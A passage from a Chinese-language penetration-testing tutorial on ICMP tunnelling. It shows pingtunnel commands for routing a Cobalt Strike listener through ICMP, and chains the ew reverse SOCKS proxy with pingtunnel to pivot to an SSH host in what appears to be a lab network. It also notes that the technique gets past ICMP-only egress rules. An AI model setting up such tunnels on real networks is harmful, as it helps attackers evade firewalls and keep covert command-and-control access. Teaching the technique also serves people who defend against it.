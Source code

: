 工作流程：
1. 客户端发起 TCP/UDP 连接（例如访问远程 22 端口）。
2. `pingtunnel` 客户端把这些数据**包进 ICMP 数据包**。
3. ICMP 数据包发给 `pingtunnel` 服务器。
4. 服务器解封装，按原协议发到目标端口。
5. 返回数据走相同反向流程。

#### 3.3.2. icmp 隧道 CS 上线

![image.png](https://img.ghostliner.top/9lzEdu.png)

##### 在服务端启动：

```bash
./pingtunnel -type server
```

##### 在客户端启动：

例如要通过 ICMP 隧道访问远程服务器的 CS 监听端口：

```bash
./pingtunnel -type client -l 127.0.0.1:1111 -s 1.2.3.4 -t 1.2.3.4:2222 -tcp 1
```

#### 3.3.3. ew 代理+pingtunnel 隧道

![image.png|538](https://img.ghostliner.top/jIj1RG.png)

kali-server 开启反向 socks 客户端和 pingtunnel 服务端

```shell
./ew -s rcsocks -l 3333 -e 4444
./pingtunnel -type server
```

win-web 开启反向 socks 服务端和 pingtunnel 客户端

```shell
pingtunnel -type client -l 127.0.0.1:1111 -s 192.168.22.128 -t 192.168.163.132:4444 -sock5 -1
ew -s rssocks -d 127.0.0.1 -e 1111
```

win-client 使用 Proxifier 配置 SSH 代理

![image.png](https://img.ghostliner.top/L4UBhZ.png)

使用 cmd 命令行连接 CentOS

```shell
ssh root@192.168.22.130
```

### 3.4. 优缺点

**优点**
- 绕过仅允许 ICMP 的出口限制。
- 实现简单，不依赖特殊内核模块。
- 可加密、认证。

**缺点**
- ICMP 不适合高带宽、大延迟需求的业务。
- 很容易被 IDS/IPS 检测（ICMP 流量不正常时）。
- 部分网络运营商或防火墙丢弃非标准 ICMP 数据。
